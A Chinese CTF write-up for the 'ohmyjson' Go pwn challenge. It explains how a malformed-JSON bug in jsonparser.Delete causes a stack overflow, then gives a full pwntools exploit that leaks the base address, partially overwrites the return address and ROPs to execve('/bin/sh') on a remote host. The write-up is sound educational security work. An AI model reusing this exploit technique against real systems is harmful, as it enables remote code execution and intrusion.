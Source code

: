 # ohmyjson
golang写的json解析程序

存在混淆，golanghelper恢复没有效果，不过debug信息会有源码位置，因此选择人为制造Crash，可以定位到一些关键函数，和直接获得对应源码位置，根据源码行数可以确定一些官方函数

大致流程:read => strings.Split => ParseJson 

Split会按照空格分割并判断是否为3个部分

而后会使用jsonparser.Delete，将json中第二个部分指定的成员删除

在逆向出最后一个的作用前，进行简单测试发现利用:
```
# buger/jsonparser 唯一相关CVE(恰好也在jsonparser.Delete)
https://github.com/buger/jsonparser/issues/188
```
类似的一些非法json，会导致处理时间过长，导致最后一个达到(第三部分比较长时)栈溢出(后续没有继续逆，这里猜测是超时后Thread返回设置标志位等原因触发溢出函数)，并且一些情况下(第三部分比较短时)可以输出第三部分信息(0x20字节)

Debug时可以看到溢出时栈信息:
```
pwndbg> x/100xg $rsp-0xa0
0xc000045e00:	0x0000555555699c40	0x000000c000102000
0xc000045e10:	0x000000c000045e40	0x0000555555609ade
0xc000045e20:	0x0000000000000000	0x0000000000000000
0xc000045e30:	0x000000c000045de0	0x0000000000000020
0xc000045e40:	0x0000000000000020	0x000000c00005c180
0xc000045e50:	0x000000c000045e20	0x0000000000000001
0xc000045e60:	0x0000000000000000	0x0000000000000000
0xc000045e70:	0x000000c00005c1e0	0x0000000000000000
0xc000045e80:	0x0000000000000001	0x0000000000000000
0xc000045e90:	0x0000000000000000	0x000000c000045f78
0xc000045ea0:	0x000055555566afd0	0x000000c000000000
......
......
```
溢出会从第三部分的0x30字节往后，覆盖到0xc000045e10地址之后

并可以看到0xc000045e30位置恰好类似一个0x20 length的slice:
```
struct slice{
	byte* array;
	uintgo len;
	uintgo cap;
}
```
Debug+硬件断点确定实际输出的就是这个slice的数据

0xc000045ea0位置为返回地址

Exploit: 利用golang栈地址相对固定(远程利用报错debug信息可以看到栈地址)来设置好slice进行leak程序加载基址

而后部分覆盖返回地址进行复用(1/16爆破)

复用后直接ROP执行execv即可

### EXP:
```
#测试使用"{{{}"这类json也可以
from pwn import *
context.log_level="debug"
#p=process("./chall")
p=remote("123.57.209.176",30773)
payload='{{{} a '+"\x00"*0x30
payload+=(p64(0)*4+p64(0xc00003eea0)+p64(0x50)+p64(0x50)).ljust(0x90,"\x00")
payload+="\xb0\x6d"
#0
#gdb.attach(p)
p.sendlineafter(": ",payload)
p.recv(0x10)

addr=u64(p.recv(8))+0x5603ab9bd000-0x5603abb248a8
print hex(addr)
rdi=addr+0x0000000000117867
rsi2=addr+0x0000000000117865
rdx=addr+0x00000000000783de
rax=addr+0x0000000000073339
syscall=addr+0x000000000009c194
if addr>0:
     payload='{{{} a '+"\x00"*0xc0
     payload+=p64(rdi)+p64(0xc00003ee18)+p64(rsi2)+p64(0)+p64(0)+p64(rdx)+p64(0)+p64(rax)+p64(0x3b)+p64(syscall)+"/bin/sh\x00"
     p.sendlineafter(": ",payload)
     #gdb.attach(p)
p.interactive()
```